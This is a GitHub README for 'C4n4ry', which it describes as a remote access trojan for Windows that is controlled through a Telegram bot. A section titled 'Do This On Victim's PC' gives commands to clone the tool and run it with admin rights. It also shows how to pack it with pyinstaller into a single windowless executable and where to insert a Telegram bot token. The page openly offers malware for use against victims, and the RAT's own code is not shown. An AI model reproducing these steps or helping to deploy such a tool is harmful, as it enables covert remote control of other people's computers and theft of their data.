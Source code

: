 <p align="center">
<a href="https://git.io/typing-svg">
<img src="https://readme-typing-svg.demolab.com?font=Fira+Code&weight=700&duration=3000&pause=900&background=FFFFFF00&center=true&vCenter=true&random=false&width=435&lines=Welcome+To+The+C4n4ry!!" alt="Typing SVG" />
</a></p>

###### <p align="center">*This is official repository maintained by me*
###### <p align="center"> *[0xb14cky → Instagram](https://www.instagram.com/0xb14cky/)✌*
###### <p align="center"> *[0xB14CKY→ Youtube](https://www.youtube.com/channel/UC8bmAXnfIitSouOnhD9bjzA/) ❤️*
  

## C4n4ry
 
A Simple Telegram API Based Remote RAT for Windows

## Do This On Victim's PC

1. Running .py file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
pip install -r requirements.txt
python C4n4ry.py
```
2. Running .exe file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
# auto-py-to-exe or pyinstaller
pip install pyinstaller auto-py-to-exe
pyinstaller --noconfirm --onefile --windowed C4n4ry.py
```

- How to Obtain Own API of Telegram
[https://core.telegram.org/api/obtaining_api_id]
 
- Add Your Telegram API Key in File

```py
# Telegram Token
TOKEN = ""
```

 ### Development by

Developer / Author: [0xB14CKY](https://www.instagram.com/0xb14cky/)


